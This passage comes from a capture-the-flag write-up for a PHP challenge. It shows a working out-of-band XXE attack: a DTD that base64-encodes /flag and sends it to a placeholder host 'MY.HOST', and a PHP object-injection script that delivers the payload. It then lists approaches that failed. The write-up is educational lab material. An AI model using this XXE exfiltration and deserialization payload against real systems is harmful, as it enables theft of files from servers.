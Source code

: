 Cool, it grabs files locally. Now we have to get it to reach out with the content of those files, and `/flag` instead of `/etc/passwd`.

 In the end, I went for Out of Band (OOB) XXE, hosting the following `DTD` on my server:

```sh
<!ENTITY % cool SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % all '<!ENTITY send SYSTEM "http://MY.HOST:4200/%cool;">'>
%all;
```

We knew the flag was at `/flag` with the source we downloaded. It's `base64` encoded because the newline `\n` at the end of the file would cause `SimpleXML` to throw and error and say that the Uniform Resource Indicator (URI) was invalid when we tried to include the file contents as part of it.

So, our final object solve "script" looks like:

```php
<?php

require("./models/XmlParserModel.php");
require("./models/UserModel.php");

$payload = '<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM
"file:///flag">
<!ENTITY % dtd SYSTEM
"http://MY.HOST/ctf.dtd">
%dtd;
]>
<data>&send;</data>';

$foo = new XmlParserModel($payload);

$lol = new UserModel();
$lol->username = 'admin';
$lol->test = array(
    ";O:12:" => $foo,
);

echo serialize($lol);

?>
```

Before getting the flag though, I'd like to mention that, like most writeups, this post gives an illusion of intelligence and purpose, which is most definitely false. Due to source being pretty small, we were able to ascertain the correct path pretty quickly, but we also tried:

- Tomfoolery with JSON posted to endpoint for an order
  - Had both client and server side validation
  - No server-side template injection
- PHPSESSID generation was predictable, maybe forge it?
- Eight billion types of regex bypasses that didn't work
  - Explored source code and niche blog posts to find `+` before number in a serialized object bypass or `C` custom datatype
